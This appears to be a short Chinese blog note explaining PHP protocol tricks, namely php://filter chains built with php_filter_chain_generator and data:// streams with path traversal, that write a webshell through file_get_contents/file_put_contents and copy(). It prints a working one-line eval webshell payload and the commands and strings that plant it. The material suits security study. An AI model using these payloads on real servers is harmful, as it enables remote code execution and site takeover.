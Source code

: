 ```yaml
---
title: php-protocol
date: 2025-04-01 18:00:12
tags:
---
```


## php_filter_chain_generator工具

开源地址：[synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

这款工具可以使filter流构造时，利用不同协议的解析差使得转化字符的不同差异写入预计的shell。

抛出一道题:

```
file_put_contents($file, file_get_contents($file));
```

从代码本意上来说,两边$file是相等都一样吗，也就是说对于一个相同的文件写入一个相同的内容。但是这个时候我们可以思考php的一个特性,php://filter流制造两边的解析差。

制造漏洞的过程就是使得file get contents成为shell通过file put contents写入预计的文件中。

利用工具，构造生成的chain。

```
python phpchain.py --chain '<?php @eval($_POST[1]);?>' 
```

可以得到php://filter链，而最后的php://input可以有两种选择。

1.任意但不包含index.php,此时file get contents会产生报错，即使报错无法get预计的文件，但是file put content作为写入文件流函数可以新建出webshell。

2.特定的index.php(作为一个有内容且内容我们不可控制的文件)，则需要一点修饰。由于 convert.iconv.UTF8.CSISO2022KR 这个编码不支持中文或者其他字符，在一长串的 iconv 前面加上一个 base64-encode 使其全部变成 ASCII 字符即可，使得程序可以正常运行植入shell。——由于经过一系列复杂的字符转换，原本的内容已经成为乱码。

## data://流

使得文件函数返回对应的文本,

共同点：两者都可以使得有关文件函数返回值被输入者控制。

```
copy($a,backup/$a)
```

考虑data://流制造差异化。

data://text/plain,<?php @eval($_POST[1]);?>../../../index.php即可实现后部分目录穿越以及前部分执行<>内部预定的代码内容植入shell。

